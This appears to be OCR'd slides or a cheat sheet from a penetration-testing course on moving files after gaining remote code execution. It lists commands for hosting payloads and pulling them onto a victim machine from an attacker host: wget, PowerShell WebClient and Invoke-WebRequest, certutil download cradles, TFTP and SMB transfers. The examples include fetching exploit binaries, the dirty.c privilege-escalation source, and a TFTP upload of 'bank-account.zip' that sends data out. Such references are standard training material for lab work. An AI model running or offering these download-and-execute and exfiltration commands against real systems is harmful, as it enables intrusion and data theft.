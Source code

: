 # Serving up code
Once we have RCE, we can sometimes want to serve up files or code to download and execute
on the victim (e.g., webshell)

● HTTP
○ sudo service apache2 start
○ /var/www/html
○ wget http://192.168.1.42/go.exe
● SIMPLE HTTP
○ python SimpleHTTPServer.py
○ Will serve up on port 8000 in the folder you run the script from
● TFTP
○ atftpd --daemon --port 69 /tftp
○ cd /tftp touch incoming chmod 777 incoming
○ tftp -i 10.11.0.185 GET test.txt
○ tftp -i 10.11.0.185 PUT bank-account.zip incoming
● SMB
○ smbserver.py [sharename] /tmp/smbserve/
○ Dir \\192.168.1.48\sharename
○ \\192.168.1.48\sharename\go.exe






# File Transfer
● Windows
○ tftp -i 10.11.0.185 GET test.txt
○ cscript wget.vbs http://10.11.0.158/ms11-080.exe -O C:\lec\ms11-080.exe
○ Powershell 2
■ (new-object
System.Net.WebClient).Downloadfile("http://10.11.0.185/access
chk.exe", "C:\lec\accesschk.exe")

○ Powershell 3
■ Invoke-WebRequest "http://10.11.0.130/adfsys.exe" -OutFile "adfsys.exe"
○ SimpleSMBServer
■ smbserver.py lecon /var/www/html
○ SimpleHTTPServer
■ python -m SimpleHTTPServer
○ FTP
■

● Linux
○ wget http://10.11.0.158/dirty.c -O /tmp/dirty.c
○ scp root@10.11.0.158:~/Downloads/dirty.c .








#### Windows lol
BitsAdmin 
```certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>```
